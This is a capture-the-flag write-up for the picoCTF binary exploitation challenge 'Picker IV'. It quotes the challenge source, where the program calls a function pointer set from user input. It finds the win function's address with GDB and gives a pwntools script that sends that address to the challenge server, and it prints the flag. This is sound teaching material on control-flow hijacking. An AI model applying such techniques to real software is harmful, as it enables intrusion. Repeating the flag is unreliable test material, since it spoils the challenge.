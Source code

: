 # Writeup - Picker IV
Category: Binary Exploitation, Points: 100


## Description

> Can you figure out how this program works to get the flag?

Connect to the program with netcat:
`$ nc saturn.picoctf.net 61939`

We are given a binary and a source file after launching the challenge instance.


## Vulnerability

Given source 

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
    printf("Cannot open file.\n");
    exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
    printf ("%c", c);
    c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

In the program `foo` is assigned to the `val` variable. And `val` is the user input.


## Exploit

We have to give the `win` function's `hex` address as input, to get the flag.

GDB the binary file and get `win` function's address.

```console
gef➤  disas win
Dump of assembler code for function win:
   0x000000000040129e <+0>:	endbr64
```

`win` function's address is `40129e`

give this address as input and you should get your flag.

Exploit:

```python
import sys

from pwn import *

io = process("./picker-IV") if sys.argv[1] != "remote" else remote("saturn.picoctf.net", "65056")
addr = "0040129e"
io.recvuntil("Enter the address in hex to jump to, excluding '0x':")
io.sendline(addr)
log.info(f"sent address {addr}!")
info(io.recvuntil("}"))
io.close()
```


## Flag
`picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}`
